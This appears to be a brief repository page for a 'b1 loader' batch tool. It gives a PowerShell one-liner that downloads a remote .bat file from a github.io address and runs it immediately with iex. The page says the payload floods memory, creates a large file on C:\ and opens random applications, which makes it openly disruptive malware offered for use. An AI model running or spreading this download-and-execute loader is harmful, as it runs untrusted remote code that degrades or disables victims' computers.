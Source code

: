 batch loader
----------------------------------
# b1 loader 
```bat
powershell -Command "iex '& { $(iwr -useb \"https://luzisdev.github.io/b-1.bat\") }'"
```
- flood memory
- creat big file at C:\
- open randoms application
----------------------------------
